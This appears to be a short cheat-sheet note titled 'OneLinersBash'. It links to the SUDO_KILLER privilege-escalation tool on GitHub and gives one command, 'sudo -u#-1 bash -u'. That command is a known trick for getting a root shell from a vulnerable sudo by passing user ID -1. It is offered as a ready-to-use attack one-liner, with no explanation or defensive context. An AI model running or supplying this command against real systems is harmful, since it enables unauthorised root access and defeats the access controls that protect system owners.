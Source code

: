# OneLinersBash


# SUDO_KILLER

url: https://github.com/TH3xACE/SUDO_KILLER/tree/master

$ sudo -u#-1 bash -u
